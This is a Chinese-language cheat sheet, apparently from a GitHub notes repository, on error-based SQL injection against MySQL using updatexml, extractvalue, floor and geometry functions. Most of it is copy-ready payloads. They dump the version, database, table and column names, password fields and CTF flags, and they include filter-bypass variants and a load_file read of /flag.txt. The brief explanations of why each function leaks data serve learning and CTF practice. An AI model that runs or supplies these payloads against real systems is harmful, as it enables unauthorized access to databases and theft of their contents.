 利用报错回显敏感的sql注入
常利用函数：updatexml、floor、exp、extractvalue、join
* floor
* exp
* extractvalue
* updatexml
* name_const
* join
* geometrycollecion
* polygon
* multipoint
* multinestring
* multpolygon
* linesring

特殊函数
```
concat()用于连接多个字段。常配合报错函数。
group_concat()用于拼接某个字段的所有值，常用于输出。
也可以：
GROUP_CONCAT(CONCAT(first_name, ' ', last_name)
```

拼接符
```
AND OR ^ || &&优先级比两边低，导致了会先执行错误语句报错。
在 SQL 中，`AND` 和 `OR` 操作符的优先级比算术运算符（如加法 `+`、乘法 `*`）的优先级要低。
这意味着在没有括号明确指定操作顺序的情况下，算术运算会先于逻辑运算执行。
```


## **updatexml**
原理：
updatexml（）一共有三个参数，第一个是xml内容、第二个参数是update的位置XPATH路径、第三个参数是更新后的内容；这里报错的主要原理是利用第二个参数，当其校验输入的内容是否符合XPATH路径格式的时候，不符合就报错，一般书写在路径位置为特殊符号0x7e，即可使得出现报错。同时第二个参数加入version（）或者database（）等等，因为不满足XPATH格式所以会输出错误，输出错误的时候将sql代码顺便（verson()，database()等）执行了。
```
payload:
//查询当前MySQL版本
'and updatexml(1,concat(0x7e,(select @@version)),1) or '1'='1
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
//查询当前数据库名
'and updatexml(1,concat(0x7e,(select database())),1) or '1'='1
'and updatexml(1,concat(0x7e,(select database(),0x7e),1) or '1'='1
//查询表名（当前数据库下的）
'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) or '1'='1
//查询字段名(users表中的)
'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) or '1'='1
'and updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'adopt_admin' ),1),1) or '1'='1

基于insert/update下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
基于delete下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1)

#正则f开头后就是一个
123"||(updatexml(1,(select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')),1))#

#updatexml()函数有长度限制（32位），使用reverse()进行倒序输出，将其与前段的flag进行拼接得到flag
123"||(updatexml(1,concat('~',reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#

123"||(updatexml(1,concat('~',((select(reverse(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#

#这里right()函数如果被过滤了，所以用reverse()
123"||(updatexml(1,concat('~',((select(right(real_flag_1s_here,30))from(users)where(real_flag_1s_here)regexp('^f')))),1))#

#也可以用substr()分段读
select substr(load_file('/flag.txt'),1,30))
```


^
## **extractvalue**
原理：与updatexml类似，第二个参数路径错误。
```
'and extractvalue(1,concat(0x7e,(select @@version))) #


过滤空格用括号()，过滤=用like

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(database()))))%23
查出库名geek

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))%23
查出表名：H4rDsq1



?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))%23
查出有password字段



?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23

extractvalue函数只能30字符，先做，后右。

?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23
```

^
## **floor**
floor()报错注入准确地说应该是floor,count,group by冲突报错是当这三个函数在特定情况一起使用产生的错误。
```
and (select count(*) floor(rand(14)*2) as a from users group by a);

获取数据库用户名
select * from test where id=1 and (select 1 from (select count(*), concat(user(),floor(rand(0)*2)) as x from information_schema.tables group by x)a) 

select * from test where id=1 and (select 1 from (select count(*), concat(database(),floor(rand(0)*2)) as x from information_schema.tables group by x)a) 

显示当前数据库名，登陆用户，数据库版本和数据路径 
SELECT (select 1 from (select count(*),concat(floor(rand(0)*2),(select concat(0x3a,database(),0x3a,user(),0x3a,version(),0x3a,@@datadir)))a from information_schema.tables group by a)b)

union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x3a,database(),0x3a,user(),0x3a,version(),0x3a,@@datadir)))a+from+information_schema.tables+group+by+a)b 
1、获取所有的数据库名 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(SELECT distinct concat(0x7e,0x27,SCHEMA_NAME,0x27,0x7e)+FROM+information_schema.SCHEMATA+LIMIT+0,1))a+from information_schema.tables+group+by+a)b 
2、爆当前数据库中的表 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+0,1))a+from+information_schema.tables+group+by+a)b 
3、爆字段 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+column_name+from+information_schema.columns+where+table_name=表名+limit+0,1))a+from+information_schema.tables+group+by+a)b 
4、爆内容 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x3a,字段1,0x3a,字段2)+from+表名+limit+0,1))a+from+information_schema.tables+group+by+a)b
```
原理：
group进行分组，count进行统计，rand进行创建随机数并且是第十四次，然后乘以2，用floor进行向下取整，然后得到1010，进行分组排序的时候，系统会先生成一个虚拟表，然后是主键和值，通过查询floor(rand(14)\*2)得到结果是1，然后发现自己得虚拟表中没有，插入虚拟表中得主键，然后在插入得时候，表达式会再次执行一遍，实际插入到里面得是零，然后第二次，插入是1，发现表中没有，在插入得时候再次运行，实习插入主键得是0，**两个主键0**，因此报错。

必要条件：
数据库得数据必须得大于2才能执行



^
## **报错注入绕过**
```
1 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7e,(SELECT database()),0x7e,0x78))s), 8446744073709551610, 8446744073709551610)))



' and ST_Pointfromgeohash(current_user())--+
' || ST_Pointfromgeohash()--+
' || ST_Pointfromgeohash()#


order by GTID_SUBSET((version(),1))
```